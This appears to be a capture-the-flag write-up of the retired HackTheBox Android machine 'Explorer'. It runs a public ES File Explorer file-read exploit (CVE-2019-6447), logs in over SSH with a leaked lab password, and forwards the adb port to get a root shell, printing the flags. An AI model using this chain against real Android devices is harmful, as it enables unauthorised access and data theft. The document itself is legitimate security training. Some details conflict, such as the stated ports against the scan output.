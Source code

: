 Title:HTB: Exlore
Date: MM-05-2021 09:15
category:security
tags:security, boot2root, HTB, Android, exploit, adb
meta:security, boot2root, HTB, Android, exploit, adb

<img class="align-left" src="/media/2021.xx/explorer_card.png" alt="Explorer card" width="262">


This is a writeup about a retired HacktheBox machine:
[Explorer](https://www.hackthebox.eu/home/machines/profile/356) created by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897) and publish on
June 26, 2021.
This box is classified as an easy machine. The user part involves an Android
exploit for ES File Explorer and the root part a simple port forward and an `adb` shell.

<!-- PELICAN_END_SUMMARY -->

# User

## Reco

We start with an nmap scan. Only ports 22 (SSH) and 8080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jul 10 02:07:06 2021 as: nmap -sSV -A -p- -oN notes.md 10.129.153.142
    Nmap scan report for 10.129.153.142
    Host is up (0.012s latency).
    Not shown: 65530 closed ports
    PORT      STATE    SERVICE VERSION
    2222/tcp  open     ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    5555/tcp  filtered freeciv
    33427/tcp open     unknown
    <SNIP>
    42135/tcp open     http    ES File Explorer Name Response httpd
    |_http-title: Site doesn't have a title (text/html).
    59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
    |_http-title: Site doesn't have a title (text/plain).
    <SNIP>

The nmap scan hint us that the "box" is an Android device (port 5555 for adb,
Banana ssh server and ES File Explorer).

A quick google search "ES File Explorer exploit" allows us to find an
[arbitrary file read exploit](https://www.exploit-db.com/exploits/50070).

We run it and are able to list the files on the Android phone but nothing there
will give us a shell (we are still abe to get the user flag).
We list the pictures and found the `creds.png` file.


    :::text
    └─$ python3 50070.py listPics 10.129.153.142

    ==================================================================
    |    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
    |                Coded By : Nehal a.k.a PwnerSec                 |
    ==================================================================

    name : concept.jpg
    time : 4/21/21 02:38:08 AM
    location : /storage/emulated/0/DCIM/concept.jpg
    size : 135.33 KB (138,573 Bytes)

    name : anc.png
    time : 4/21/21 02:37:50 AM
    location : /storage/emulated/0/DCIM/anc.png
    size : 6.24 KB (6,392 Bytes)

    name : creds.jpg
    time : 4/21/21 02:38:18 AM
    location : /storage/emulated/0/DCIM/creds.jpg
    size : 1.14 MB (1,200,401 Bytes)

    name : 224_anc.png
    time : 4/21/21 02:37:21 AM
    location : /storage/emulated/0/DCIM/224_anc.png
    size : 124.88 KB (127,876 Bytes)


The file is a picture of (beautifully) handwritten credential: `kristi:Kr1sT!5h@Rp3xPl0r3!`

We can use this credentials to connect using SSH and get the user flag.

    :::text
    └─$ ssh kristi@10.129.153.142 -p2222 #Kr1sT!5h@Rp3xPl0r3!
    Password authentication
    Password:
    Password authentication
    Password:
    Password authentication
    Password:
    kristi@10.129.153.142's password:
    :/ $ id
    uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cat /sdcard/user.txt
    f32017174c7c7e8f50c6da52891ae250

# Root

We saw in out initial port scan that the port 5555 (adb) was filtered. We use
SSH to access the port directly from the device by creating an SSH Local forward
tunnel.

    :::text
    └─$ ssh -L 5557:127.0.0.1:5555 kristi@10.129.43.55 -p2222
    Password authentication
    Password:
    :/ $ id
    uid=10076(u0_a76)

In another terminal we can run `adb` to list the device, connect to the box,
run a shell as root and grab the flag.

    :::text
    └─$ adb devices
    List of devices attached
    127.0.0.1:5557  device
    └─$ adb connect 127.0.0.1:5557
    already connected to 127.0.0.1:5557
    └─$ adb -s 127.0.0.1:5557 shell                                                                                                                                                                                                          1 ⨯
    x86_64:/ $ su
    :/ # id
    uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
    :/ # find / -name 'root.txt' 2> /dev/null
    /data/root.txt
    1|:/ # cat data/root.txt
    f04fc82b6d49b41c9b08982be59338c5

## Wrapping up

A "quick" and easy box. I spent way to much time on the root part as my `adb`
demon was acting weirdly and I thought the issue was on my port forwarding.


